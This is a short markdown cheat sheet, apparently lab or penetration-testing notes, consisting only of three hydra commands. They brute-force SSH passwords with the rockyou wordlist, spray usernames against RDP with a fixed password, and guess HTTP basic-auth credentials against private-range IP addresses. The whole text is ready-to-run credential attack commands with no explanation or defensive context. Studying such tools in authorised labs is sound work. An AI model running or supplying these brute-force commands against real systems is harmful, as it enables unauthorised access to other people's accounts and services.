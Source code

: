 ## brute force against ssh (passwords)
```
hydra -l george -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://192.168.50.201
```

## brute force against rdp (user names)
```
 hydra -L /usr/share/wordlists/dirb/others/names.txt -p "SuperS3cure1337#" rdp://192.168.50.202
 ```
 
 ## brute force on password protected site
 ```
 hydra -l user -P /usr/share/wordlists/rockyou.txt -s 80 -f 192.168.241.201 http-get /
```